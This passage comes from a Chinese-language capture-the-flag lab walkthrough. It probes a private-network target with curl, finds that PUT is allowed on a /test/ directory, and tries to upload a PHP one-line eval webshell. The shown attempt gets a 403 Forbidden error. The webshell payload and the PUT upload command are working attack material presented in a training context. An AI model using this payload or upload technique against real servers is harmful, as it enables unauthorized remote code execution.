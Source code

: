 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402071320659.png" alt="image-20240205121344632" style="zoom:33%;" />

似乎没有我们可以利用来获取flag的漏洞。。。

### put上传漏洞

使用命令查看一下参数信息：

```shell
curl -v -X OPTIONS http://192.168.244.183/test/
# -v: 基本的详细模式，显示请求的相关信息，如请求头和响应头。
# -vv: 更详细的模式，显示详细的请求和响应信息，包括每一步的细节。
# -vvv: 最详细的模式，显示每一个数据包的详细信息，包括 TCP 连接的建立、SSL/TLS 握手等。
# -X OPTIONS: 使用 OPTIONS 方法。OPTIONS 方法通常用于请求目标资源的通信选项，或者查询服务器支持的方法。在这个例子中，它表示发送一个 OPTIONS 请求。
# http://192.168.244.183/test/: 请求的目标 URL，其中 http:// 是协议，192.168.244.183 是主机地址，/test/ 是请求的路径。
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402071320660.png" alt="image-20240205220429070" style="zoom:50%;" />

发现允许多项传输参数，这里发现了`put`，尝试上传自己的恶意文件！可以参考：https://zhuanlan.zhihu.com/p/41454441

然后进行上传 shell 脚本：

#### 一句话木马+蚁剑

上传一下：

```shell
curl -v -X PUT -d '<?php @eval($_GET["hack"]);?>' http://192.168.244.183/test/webshell.php
```

但是我这里总是出现报错，不知道为啥：

```text
*   Trying 192.168.244.183:80...
* Connected to 192.168.244.183 (192.168.244.183) port 80
> PUT /test/webshell.php HTTP/1.1
> Host: 192.168.244.183
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Length: 29
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 403 Forbidden
< Content-Type: text/html
< Content-Length: 345
< Date: Tue, 06 Feb 2024 15:27:37 GMT
< Server: lighttpd/1.4.28
< 
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>403 - Forbidden</title>
 </head>
 <body>
  <h1>403 - Forbidden</h1>
 </body>
</html>
* Connection #0 to host 192.168.244.183 left intact
```

